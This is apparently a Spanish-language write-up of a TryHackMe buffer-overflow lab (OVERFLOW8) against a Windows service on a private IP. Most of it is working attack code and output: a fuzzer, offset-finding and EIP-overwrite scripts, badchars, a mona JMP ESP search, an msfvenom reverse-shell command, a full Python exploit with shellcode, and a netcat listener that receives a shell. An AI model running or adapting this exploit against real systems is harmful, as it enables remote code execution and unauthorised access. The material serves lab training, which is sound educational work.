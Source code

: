 ```yaml
---
layout: post
title: BofferOverflow8 - THM
subtitle: BofferOverflow8 - THM
tags: [bof,windows,python]
---
```


**EIP**: Es el puntero de instrucción, Señala(mantiene la dirección de) el 1er byte de la siguiente instrucción que se ejecutará. 
**ESP**: Es el puntero de pila. Apunta(contiene la dirección) del valor introducido más recientemente en la pila.

## Fuzzing

Primera etapa de un desbordamiento en pila que consiste en enviar datos aleatorios en la entrada del programa de manera automatizada, de esta forma comprobar la seguridad de la entrada en lo que respecta a la validación de datos.

```
#!/usr/bin/python

import socket, sys
from time import sleep

buffer = "A" * 200

while True:
    try:
        s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        s.settimeout(2)
        s.connect(('192.168.0.102',1337))
        s.recv(1024)

        print '[*] Length: ' + str(len(buffer))
        s.send("OVERFLOW8 " + buffer)
        s.close()
        sleep(1)
        buffer=buffer+'A'* 200

    except Exception as e:
        print '[*] Error: ' + str(e)
        sys.exit(1)
```

```
❯ python fuzzer.py
[*] Length: 200
[*] Length: 400
[*] Length: 600
[*] Length: 800
[*] Length: 1000
[*] Length: 1200
[*] Length: 1400
[*] Length: 1600
[*] Length: 1800
[*] Error: timed out
```

![crash](../assets/imgs/bof8/crash.png)

##  Encontrar el EIP

```
> pwn cyclic 2000
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaab[...]
```

```
import socket, sys
from time import sleep

buffer = "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaacoaacpaacqa[..]"

try:
  s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
  s.settimeout(2)
  s.connect(('192.168.0.102',1337))
  s.recv(1024)

  print '[*] Sending buffer'
  s.send("OVERFLOW8 " + buffer)
  s.close()

except Exception as e:
  print '[!]' + str(e)
  sys.exit()
```

![eip](../assets/imgs/bof8eip.png)

```
❯ pwn cyclic -l "arwa"
1786
```

## Sobreescribir EIP

```
import socket, sys
from time import sleep

buffer = "A"  * 1786 + "B" * 4 + "C" *100

try:
  s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
  s.settimeout(2)
  s.connect(('192.168.0.102',1337))
  s.recv(1024)

  print '[*] Sending buffer'
  s.send("OVERFLOW8 " + buffer)
  s.close()

except Exception as e:
  print '[!]' + str(e)
  sys.exit()
```

![eip2](../assets/imgs/bof8/eip2.png)

## Encontrar badchars

Damos click derecho en el registro `esp` y seleccionamos la opción `follo in dump`.

![follow](../assets/imgs/bof8/follow.png)

Seleccionamos los caracteres que no se interpretan.

![chars](../assets/imgs/bof8/chars.png)

badchars: `\x00\x1d\x2e\xc7\xee`

----

## Buscar el modulo adecuado

![modulos](../assets/imgs/bof/modulos.png)

Buscando `dll` para un salto a `JMP ESP`

![dll](../assets/imgs/bof8/dll.png)

Forma resumida:

```
!mona jmp -r esp -cpb "\x00\x1d\x2e\xc7\xee"
```

![cpb](../assets/imgs/bof8/cpb.png)

----

## Generar shellcode

| argumento | descripción |
|--|--|
| lhost | IP del atacante |
| lport |  puerto de elección del atacante |
| EXITFUNC=thread | agrega estabilidad a nuestro payload |
| -f | tipo de archivo |
| -a | arquitectura de la máquina |
| --platform | tipo de Sistema Operativo |
| -b | badchars |

```
❯ sudo msfvenom -p windows/shell_reverse_tcp lhost=192.168.0.107 lport=4444 -b "\x00\x1d\x2e\xc7\xee" EXITFUNC=thread -f c
```

```
import socket
import sys
from time import sleep

shellcode=("\xdb\xc2\xbe\x9e\xc4\x32\x0e\xd9\x74\x24\xf4\x58\x31\xc9\xb1"
"\x52\x31\x70\x17\x03\x70\x17\x83\x5e\xc0\xd0\xfb\xa2\x21\x96"
"\x04\x5a\xb2\xf7\x8d\xbf\x83\x37\xe9\xb4\xb4\x87\x79\x98\x38"
"\x63\x2f\x08\xca\x01\xf8\x3f\x7b\xaf\xde\x0e\x7c\x9c\x23\x11"
"\xfe\xdf\x77\xf1\x3f\x10\x8a\xf0\x78\x4d\x67\xa0\xd1\x19\xda"
"\x54\x55\x57\xe7\xdf\x25\x79\x6f\x3c\xfd\x78\x5e\x93\x75\x23"
"\x40\x12\x59\x5f\xc9\x0c\xbe\x5a\x83\xa7\x74\x10\x12\x61\x45"
"\xd9\xb9\x4c\x69\x28\xc3\x89\x4e\xd3\xb6\xe3\xac\x6e\xc1\x30"
"\xce\xb4\x44\xa2\x68\x3e\xfe\x0e\x88\x93\x99\xc5\x86\x58\xed"
"\x81\x8a\x5f\x22\xba\xb7\xd4\xc5\x6c\x3e\xae\xe1\xa8\x1a\x74"
"\x8b\xe9\xc6\xdb\xb4\xe9\xa8\x84\x10\x62\x44\xd0\x28\x29\x01"
"\x15\x01\xd1\xd1\x31\x12\xa2\xe3\x9e\x88\x2c\x48\x56\x17\xab"
"\xaf\x4d\xef\x23\x4e\x6e\x10\x6a\x95\x3a\x40\x04\x3c\x43\x0b"
"\xd4\xc1\x96\x9c\x84\x6d\x49\x5d\x74\xce\x39\x35\x9e\xc1\x66"
"\x25\xa1\x0b\x0f\xcc\x58\xdc\xf0\xb9\x62\x77\x99\xbb\x62\x96"
"\x05\x35\x84\xf2\xa5\x13\x1f\x6b\x5f\x3e\xeb\x0a\xa0\x94\x96"
"\x0d\x2a\x1b\x67\xc3\xdb\x56\x7b\xb4\x2b\x2d\x21\x13\x33\x9b"
"\x4d\xff\xa6\x40\x8d\x76\xdb\xde\xda\xdf\x2d\x17\x8e\xcd\x14"
"\x81\xac\x0f\xc0\xea\x74\xd4\x31\xf4\x75\x99\x0e\xd2\x65\x67"
"\x8e\x5e\xd1\x37\xd9\x08\x8f\xf1\xb3\xfa\x79\xa8\x68\x55\xed"
"\x2d\x43\x66\x6b\x32\x8e\x10\x93\x83\x67\x65\xac\x2c\xe0\x61"
"\xd5\x50\x90\x8e\x0c\xd1\xb0\x6c\x84\x2c\x59\x29\x4d\x8d\x04"
"\xca\xb8\xd2\x30\x49\x48\xab\xc6\x51\x39\xae\x83\xd5\xd2\xc2"
"\x9c\xb3\xd4\x71\x9c\x91")

buffer = 'A'*1766 + "\x90"*20 + '\xaf\x11\x50\x62' + "\x90"*20 + shellcode

try:
  s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
  s.connect(('192.168.0.102',1337))
  s.recv(1024)

  print '[*] Sending buffer'
  s.send("OVERFLOW8 " + buffer)
  s.close()

except Exception as e:
  print '[*] Error: ' + str(e)
  sys.exit()
```

----

## Ganar acceso al sistema

```
❯ python exploit.py
[*] Sending buffer

─────────────────────────────────────────────────────────────────

❯ nano exploit.py
❯ cat exploit.py | xclip -sel clip
❯ nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.0.107] from (UNKNOWN) [192.168.0.102] 49413
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\win7bits\Desktop\vulnerable-apps\oscp>whoami
whoami
win7\win7bits
```
